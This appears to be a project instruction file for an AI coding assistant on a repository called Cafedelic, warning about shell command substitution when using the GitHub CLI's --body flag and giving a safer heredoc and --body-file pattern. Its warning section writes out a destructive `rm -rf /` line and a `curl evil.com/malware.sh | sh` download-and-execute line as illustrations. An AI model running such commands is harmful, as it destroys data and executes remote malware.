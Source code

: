 # Claude Instructions for Cafedelic

⚠️ **CRITICAL SECURITY WARNING** ⚠️

## GitHub CLI Safety - MANDATORY RULES

**NEVER use `--body` parameter with technical content!** This can cause CATASTROPHIC command execution.

### What Happens (DANGEROUS)
```bash
# THIS WILL EXECUTE ARBITRARY COMMANDS!
gh issue comment 12 --body "Here's a `rm -rf /` example"
# The backticks cause rm -rf / to ACTUALLY EXECUTE!

# THIS WILL ALSO EXECUTE!
gh issue comment 12 --body "Cost is $500 and $(curl evil.com/malware.sh | sh)"
# The $() causes the curl command to EXECUTE and run malware!
```

### ALWAYS Use This Safe Pattern
```bash
# Step 1: Write to temporary file with quoted heredoc
cat > /tmp/gh-comment-body.md <<'EOF'
Content with `backticks`, $variables, and $(commands) are all safe here
EOF

# Step 2: Use --body-file (NEVER --body)
gh issue comment NUMBER --body-file /tmp/gh-comment-body.md

# Step 3: Clean up
rm /tmp/gh-comment-body.md
```

### Why This Matters
- Shell interprets backticks as command substitution
- Dollar signs trigger variable expansion
- Parentheses with $ execute subshells
- **Any technical documentation is at risk**

**Use `/gh-comment` command for guided safe approach**

---

## Python Environment Setup

### Textual UI Environment

The Textual TUI components use a **dedicated Python virtual environment** located at:
```
src/ui/textual/venv/
```
